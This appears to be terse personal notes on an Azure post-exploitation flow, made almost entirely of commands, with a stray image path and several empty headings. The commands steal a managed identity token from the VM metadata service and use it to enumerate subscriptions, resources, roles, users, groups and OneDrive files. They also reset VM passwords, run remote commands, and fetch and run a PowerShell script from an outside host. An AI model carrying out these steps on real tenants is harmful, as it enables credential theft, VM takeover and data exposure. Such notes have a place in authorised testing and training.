 # Exploitation Flow 
### Login tricks

### Buffer
```
### Try this
$pscredential = Get-Credential
Connect-AzureRmAccount -ServicePrincipal -ApplicationId "http://my-app" -Credential $pscredential -TenantId $tenantid
AzCopy /Source:https://myaccount.blob.core.windows.net/mycontainer /Dest:C:\myfolder /SourceKey:key /S
Explore : https://cloud.hacktricks.xyz/pentesting-cloud/azure-security
```

### 1. Get shell 

### 2. ```env```

### 3. Metadata 

3.1 Get metadata of the azure vm
```
curl -H Metadata:true "http://169.254.169.254/metadata/instance?api-version=2021-02-01"
```
3.2 Get auth token of managed identity
```
curl -H Metadata:true -s 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F'
```

### 4. Enum
4.1 Get list of subscriptions
```
curl --header "Authorization: Bearer ${TOKEN}" https://management.azure.com/subscriptions?api-version=2020-01-01
```

4.2 List of resource groups and resources
```
curl --header "Authorization: Bearer ${TOKEN}" https://management.azure.com/subscriptions/${SUB_ID}/resourcegroups?api-version=2019-10-01
curl --header "Authorization: Bearer ${TOKEN}" https://management.azure.com/subscriptions/${SUB_ID}/resources?api-version=2019-10-01 
```

### 5. ARM resources
List resources user has atlease read privilege
```az role assignment list --scope <resource-id> --include-inherited```
```curl -X GET -H "Authorization: Bearer ${TOKEN}" -H "Content-Type: application/json" "https://management.azure.com/<resource-id>/providers/Microsoft.Authorization/roleAssignments?api-version=2020-04-01-preview"```

Access cloud shell drive data
```
curl -H "Authorization: Bearer ${TOKEN}" -H "Content-Type: application/json" -X GET "https://portal.azure.com/api/v1/?environment=clouddrive"
```

Get deployment history ```az deployment group list --resource-group rgname```

#### VM commands

VM password reset 
```
az vm user update -u username -p password -n <VM_Name> -g <Resource_Group>
```

VM run command
```
Invoke-AzVMRunCommand -CommandId 'RunPowerShellScript' -ScriptPath .\whoami.ps1
```

VM command for running a ps script
```
Set-AzVMCustomScriptExtension -ResourceGroupName TEST -VMName PentestVM -Location westcentralus -FileUri 'http://book.azurepentesting.com/whoami.ps1' -Run 'whoami.ps1' -Name CustomScriptExtension
```

### 6. MS Graph access
Get access token
```az account get-access-token --resource https://graph.microsoft.com```

Get user info
```curl -H "Authorization: Bearer ${TOKEN}" https://graph.microsoft.com/v1.0/me```

Get list of users
```curl -X GET -H "Authorization: Bearer ${TOKEN}" https://graph.microsoft.com/v1.0/users ```

Get list of Groups
```curl -X GET -H "Authorization: Bearer ${TOKEN}" https://graph.microsoft.com/v1.0/groups```

Get groups
```
az role assignment list --scope /subscriptions/2213e8b1-dbc7-4d54-8aff-b5e315df5e5b/resourceGroups/1-6417d8f7-playground-sandbox/ --include-inherited
```

List of groups I am a member of 
```
curl -X GET -H "Authorization: Bearer ${TOKEN}" "https://graph.microsoft.com/v1.0/me/memberOf/$/microsoft.graph.group?$filter=groupTypes/any(c:c%20eq%20'unified')"
```

curl -X GET -H "Authorization: Bearer ${TOKEN}" "https://graph.microsoft.com/v1.0/me/drive/root/children"


### Misc useful commands


### Lab setup 
```az deployment group create --resource-group sec --template-file ./file.json```

